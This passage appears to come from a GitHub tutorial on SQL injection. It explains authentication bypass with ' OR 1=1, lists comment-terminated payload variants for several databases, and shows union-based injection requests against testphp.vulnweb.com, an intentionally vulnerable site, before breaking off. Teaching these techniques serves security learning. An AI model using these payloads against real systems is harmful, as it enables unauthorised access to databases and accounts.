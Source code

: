       password' OR 1=1

   As A Result, The Database Server Runs The Following SQL Query:

      SELECT id FROM users WHERE username='username' AND password='password' OR 1=1'

   Because Of The "OR 1=1" Statement,The 'WHERE' Clause Returns The First 'id' From The 'users' Table No Matter What The 'username' And 'password' Are.
   The First user 'id' In A Database Is Very Often The Administrator.In This Way,The Attacker Not Only Bypasses Authentication But Also 
   Gains Administrator Privileges.They Can Also Comment Out The Rest Of The SQL Statement To Control The Execution Of The SQL Query Further:

    -- MySQL, MSSQL, Oracle, PostgreSQL, SQLite
    ' OR '1'='1' --
    ' OR '1'='1' /*
    -- MySQL
    ' OR '1'='1' #
    -- Access (using null characters)
    ' OR '1'='1' %00
    ' OR '1'='1' %16

 ## Example Of A Union-Based SQL Injection

 One Of The Most Common Types Of SQL Injection uses The UNION Operator. It Allows The Attacker To Combine The Results Of Two Or More SELECT 
 Statements Into A Single Result. The Technique Is Called Union-Based SQL Injection.

 The Following Is An Example Of This Technique.It Uses The Web Page testphp.vulnweb.com, An Intentionally vulnerable Website.
 The Following HTTP Request Is A Normal Request That A Legitimate 'user' Would Send:

    GET http://testphp.vulnweb.com/artists.php?artist=1 HTTP/1.1
     Host: testphp.vulnweb.com
 ![image](https://user-images.githubusercontent.com/80889609/157415905-37dc9a7b-eb47-4a93-a2b8-e702e0fac900.png)

 The 'Artist' Parameter Is Vulnerable To SQL Injection.The Following Payload Modifies The Query To Look For An Inexistent Record. 
 It Sets The Value In The URL Query String To '-1'.Of Course, It Could Be Any Other Value That Does Not Exist In The Database.
 However, A Negative Value Is A Good Guess Because An Identifier In A Database Is Rarely A Negative Number.

 In SQL Injection,The 'UNION' Operator Is Commonly Used To Attach A Malicious SQL Query To The Original Query Intended To Be Run 
 By The Web Application. The Result Of The Injected Query Will Be Joined With The Result Of The Original Query.This Allows The
 Attacker To Obtain Column Values From Other Tables.
 
    GET http://testphp.vulnweb.com/artists.php?artist=-1 UNION SELECT 1, 2, 3 HTTP/1.1
    Host: testphp.vulnweb.com
![image](https://user-images.githubusercontent.com/80889609/157417615-51827a96-69e3-44fc-a639-aa7f43e3a317.png)

The Following Example Shows How An SQL Injection Payload Could Be Used To Obtain More Meaningful Data From This Intentionally Vulnerable Site:
